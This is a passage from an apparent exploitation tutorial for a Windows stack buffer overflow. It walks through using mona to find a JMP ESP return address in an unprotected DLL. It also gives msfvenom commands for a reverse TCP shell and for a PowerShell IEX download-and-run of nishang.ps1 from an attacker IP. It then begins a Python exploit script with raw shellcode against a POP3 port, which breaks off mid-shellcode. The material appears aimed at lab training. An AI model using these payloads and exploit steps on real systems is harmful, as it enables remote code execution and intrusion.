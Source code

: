![](<../.gitbook/assets/image (34) (1).png>)

## Find a JMP ESP as a return address

Using:

```
!mona modules    #Get protections, look for all false except last one (Dll of SO)
```

You will **list the memory maps**. Search for some DLl that has:

* **Rebase: False**
* **SafeSEH: False**
* **ASLR: False**
* **NXCompat: False**
* **OS Dll: True**

![](<../.gitbook/assets/image (35) (1).png>)

Now, inside this memory you should find some JMP ESP bytes, to do that execute:

```
!mona find -s "\xff\xe4" -m name_unsecure.dll # Search for opcodes insie dll space (JMP ESP)
!mona find -s "\xff\xe4" -m slmfc.dll # Example in this case
```

**Then, if some address is found, choose one that don't contain any badchar:**

![](<../.gitbook/assets/image (36) (1).png>)

**In this case, for example: \_0x5f4a358f**\_

## Create shellcode

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.41 LPORT=443 -f c -b '\x00\x0a\x0d'
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://10.11.0.41/nishang.ps1')\"" -f python -b '\x00\x0a\x0d'
```

If the exploit is not working but it should (you can see with ImDebg that the shellcode is reached), try to create other shellcodes (msfvenom with create different shellcodes for the same parameters).

**Add some NOPS at the beginning** of the shellcode and use it and the return address to JMP ESP, and finish the exploit:

```bash
#!/usr/bin/python

import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
ip = '10.11.25.153'
port = 110

shellcode = (
"\xb8\x30\x3f\x27\x0c\xdb\xda\xd9\x74\x24\xf4\x5d\x31\xc9\xb1"
"\x52\x31\x45\x12\x83\xed\xfc\x03\x75\x31\xc5\xf9\x89\xa5\x8b"
"\x02\x71\x36\xec\x8b\x94\x07\x2c\xef\xdd\x38\x9c\x7b\xb3\xb4"
"\x57\x29\x27\x4e\x15\xe6\x48\xe7\x90\xd0\x67\xf8\x89\x21\xe6"
"\x7a\xd0\x75\xc8\x43\x1b\x88\x09\x83\x46\x61\x5b\x5c\x0c\xd4"
"\x4b\xe9\x58\xe5\xe0\xa1\x4d\x6d\x15\x71\x6f\x5c\x88\x09\x36"
"\x7e\x2b\xdd\x42\x37\x33\x02\x6e\x81\xc8\xf0\x04\x10\x18\xc9"
"\xe5\xbf\x65\xe5\x17\xc1\xa2\xc2\xc7\xb4\xda\x30\x75\xcf\x19"
"\x4a\xa1\x5a\xb9\xec\x22\xfc\x65\x0c\xe6\x9b\xee\x02\x43\xef"
"\xa8\x06\x52\x3c\xc3\x33\xdf\xc3\x03\xb2\x9b\xe7\x87\x9e\x78"
```
